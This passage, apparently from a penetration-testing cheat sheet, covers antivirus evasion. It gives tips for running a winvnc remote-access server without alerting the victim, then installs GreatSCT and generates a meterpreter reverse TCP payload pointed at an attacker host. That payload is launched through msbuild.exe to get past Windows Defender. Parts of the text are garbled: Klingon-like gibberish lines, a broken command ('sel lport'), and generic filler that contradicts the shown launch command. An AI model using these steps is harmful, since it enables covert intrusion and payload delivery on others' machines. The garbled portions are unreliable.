 **WARNING:** To maintain stealth you must not do a few things

* Don't start `winvnc` if it's already running or you'll trigger a [popup](https://i.imgur.com/1SROTTl.png). check if it's running with `tasklist | findstr winvnc`
* Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [the config window](https://i.imgur.com/rfMQWcf.png) to open
* Don't run `winvnc -h` for help or you'll trigger a [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT:
----------------

GreatSCT is a tool designed to generate payloads that can bypass antivirus (AV) detection. It achieves this by using various techniques to obfuscate the payload and make it undetectable by AV software.

The tool provides a user-friendly interface that allows you to easily generate payloads with different obfuscation techniques. It supports both Windows and Linux platforms.

To use GreatSCT, you first need to install it on your machine. You can do this by cloning the GitHub repository and running the setup script. Once installed, you can launch GreatSCT by running the `greatsct` command.

Once inside GreatSCT, you have several options to choose from. You can select the payload type, the obfuscation technique, and the output format. GreatSCT supports a wide range of payload types, including reverse shells, bind shells, and meterpreter shells.

When selecting the obfuscation technique, you can choose from options such as encoding, encryption, and shellcode injection. These techniques help to hide the payload from AV software and increase the chances of successful execution.

After selecting the desired options, you can generate the payload by running the `generate` command. GreatSCT will then create the payload and save it to a specified output file.

It's important to note that while GreatSCT can help bypass AV detection, it's not foolproof. AV software is constantly evolving, and new detection techniques are being developed. Therefore, it's always a good idea to test the generated payload against different AV software to ensure its effectiveness.

In conclusion, GreatSCT is a powerful tool for generating payloads that can bypass AV detection. It provides a user-friendly interface and supports various obfuscation techniques. However, it's important to stay updated with the latest AV detection techniques to ensure the effectiveness of the generated payloads.
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
**Qapla'** **lister** **bI'** `msfconsole -r file.rc` **'ej** **jatlh** **xml payload** **vaj**:**
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**Qa'leS defender vItlhutlh.**
